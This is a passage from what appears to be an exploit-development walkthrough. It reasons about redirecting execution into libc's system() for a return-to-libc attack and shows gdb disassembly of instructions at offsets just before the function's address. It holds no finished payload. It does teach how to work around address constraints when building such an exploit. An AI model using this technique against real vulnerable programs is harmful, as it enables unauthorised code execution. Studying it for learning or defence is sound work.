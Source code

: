 At the address of the `mov` command, `0xf7e26203` we could jump there? But, this
means we don't do the `sub` command, and that's important because the `mov`
offsets from the stack pointer when assigning to `eax` in preparation for the
system call. We could consider this in priming our exploit, but it would be a
lot better if we can just blindly return-2-libc without having to do more offset
calculations and whatnot.

What about subtracting from the start of system, how do the instructions
change?

``` example
(gdb) x/10i 0xf7e26200-1
   0xf7e261ff:	add    BYTE PTR [ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
   0xf7e26220 <system+32>:	lea    eax,[edx-0x59f29]
(gdb) x/10i 0xf7e26200-2
   0xf7e261fe:	add    BYTE PTR es:[ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
   0xf7e26220 <system+32>:	lea    eax,[edx-0x59f29]
(gdb) x/10i 0xf7e26200-3
   0xf7e261fd:	je     0xf7e26225 <system+37>
   0xf7e261ff:	add    BYTE PTR [ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
(gdb) x/10i 0xf7e26200-4
   0xf7e261fc:	lea    esi,[esi+eiz*1+0x0]
   0xf7e26200 <system>:	sub    esp,0xc
   0xf7e26203 <system+3>:	mov    eax,DWORD PTR [esp+0x10]
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
```
